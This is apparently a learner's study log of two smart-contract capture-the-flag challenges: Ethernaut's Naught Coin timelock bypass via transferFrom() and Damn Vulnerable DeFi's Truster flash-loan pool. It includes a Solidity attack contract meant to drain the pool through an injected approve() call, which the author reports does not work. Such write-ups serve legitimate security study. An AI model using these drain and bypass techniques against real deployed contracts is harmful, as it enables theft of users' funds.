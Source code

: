 ## Day 14-15: ERC20

### Ethernaut #15 Naught Coin 

This is an ERC20 token and we own the full supply of these tokens, but we can only withdraw with the transfer() function after 10 years.  The challenge is to transfer the coins out before the lockout period.  Here is a shot of the transfer and lockTokens() functions.  

```Java

  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  }
```

One possible exploit is to transfer the tokens using a different method than ```transfer()```, since this contract inherits all the ERC20 methods and only overrides ```transfer()```.  The other possible method is: ```transferFrom()```.  Two other accounts called ADDRESS_2, and ADDRESS_3, will be needed to accomplish this.  

This was accomplished with the following steps:

step 1. player approves ADDRESS_2 to spend INITIAL_SUPPLY tokens.  
step 2. ADDRESS_2 calls ```transferFrom(player, ADDRESS_3, INITIAL_SUPPLY)```.  



### Damn Vulnerable Defi #3 Truster

This is flah loan pool that lends out DVT tokens.  The objective is after starting with 0 tokens take all the tokens in the pool. The main flashLoan function is below: 

```Java
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
```

The main steps in the flash loan code are transfer() and then the target functionCall(), at first it appears that functionCall() is an interface for using the flash loan, however upon further inspection functionCall() is from OpenZeppelin utils in the Address.sol file.  Here is the relevant code: 

```Java
(bool success, bytes memory returndata) = target.call{value: value}(data);
```

This takes any contract we desire and calls any function we desire, very interesting.  With this knowledge we can attack the pool by not borrowing any tokens and instead using the function call to approve our contract to spend the external tokens.  A contract that does this is given below.  


```Java
contract Attack {
    TrusterLenderPool immutable pool;
    DamnValuableToken immutable token;
    uint256 constant MAX_UINT = type(uint256).max;

    constructor(address _poolAddress, address _tokenAdd) {
        pool = TrusterLenderPool(_poolAddress);
        token = DamnValuableToken(_tokenAdd);
    }

    function attack() external {
        // pack up the function call
        uint tokensToMove = token.balanceOf(address(pool));
        console.log("tokens to move: ", tokensToMove);
        bytes memory packedFtnCall = abi.encodeWithSignature("approve(address, uint256)", address(this), tokensToMove); // this doesn't work
        // bytes memory packedFtnCall = abi.encodeWithSignature("balanceOf(address)", address(pool));  // this works

        // borrow 0 tokens so we don't have to worry about returning them.  
        pool.flashLoan(0, msg.sender, address(token), packedFtnCall);

        // now that we have the approval transfer the tokens to the boss
        token.transferFrom(address(pool), msg.sender, tokensToMove);
    }
}
```

This fails if ```approve()``` or ```transfer()``` are called.  It's not completely clear to me why it fails, it is failing during the OpenZeppelin ```verifyCallResult()``` in Oz/contracts/utils/Address.sol.  